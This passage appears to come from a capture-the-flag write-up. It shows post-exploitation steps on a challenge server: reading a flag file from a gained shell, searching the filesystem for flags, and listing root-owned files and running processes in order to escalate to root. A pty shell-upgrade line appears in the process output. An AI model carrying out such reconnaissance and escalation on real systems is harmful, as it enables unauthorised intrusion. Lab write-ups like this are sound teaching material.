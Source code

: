 Using this shell it is possible to run arbitrary commands on the server:

```
ls -la
total 1752
drwxr-xr-x    1 tickets  tickets         25 Aug 31 08:57 .
drwxr-xr-x    1 root     root            33 Aug 31 08:56 ..
drwxr-xr-x    1 tickets  tickets        138 Aug 25 06:44 app
-rw-r--r--    1 tickets  tickets         46 Aug 22 21:45 flag.txt
-rwxr-xr-x    1 tickets  tickets        527 Jul 15 02:15 launcher.py
drwxr-xr-x    1 tickets  tickets       4096 Aug 23 00:00 node_modules
-rw-r--r--    1 tickets  tickets      72916 Aug 22 23:59 package-lock.json
-rw-r--r--    1 tickets  tickets        610 Aug 11 01:48 package.json
-rw-r--r--    1 tickets  tickets    1629167 Sep  4 10:29 tickets.log
cat flag.txt
SoT2021_Flag{825497c3db3b7c6a28970b6576f25241}
```

And there's the first filesystem flag `SoT2021_Flag{825497c3db3b7c6a28970b6576f25241}`

# Flag 15: Filesystem #2

Carrying on from the previous stage, I've got a reverse shell. I use `find / -iname '*flag*' 2>/dev/null` to see if there are any more flags in the filesystem, and sure enough I find one in `/root/flag.txt`.

I list the contents of `/root`:

```
$ ls -lah /root/
total 4K
drwxr-xr-x    1 root     root          21 Aug 27 10:02 .
drwxr-xr-x    1 root     root          33 Aug 31 08:56 ..
drwx------    1 root     root          25 Aug 27 10:02 .config
drwx------    4 root     root         103 Aug  3 18:37 .gnupg
drwxr-xr-x    1 root     root          59 Aug 27 10:02 .npm
drwxr-xr-x    2 root     root          46 Aug 27 09:35 .ssh
-rw-------    1 root     root          46 Aug 22 21:45 flag.txt
-rwxrwxrwx    1 root     root           0 Aug 27 09:07 test.js
```

And see that the flag is only readable by root, so I start looking for ways to escalate to root. Sudo isn't installed, so I list out the running processes.

```
    1 root      0:01 node /usr/local/bin/nodemon --exec python3 /tickets/launcher.py
   19 root      0:00 python3 /tickets/launcher.py
   20 tickets   0:03 node app/server.js
  315 tickets   0:00 /bin/sh
  321 tickets   0:00 python3 -c import pty; pty.spawn("/bin/sh")
  322 tickets   0:00 /bin/sh
  332 tickets   0:00 ps aux
```

And find that nodemon is running a python script as root. The python script code is as follows:

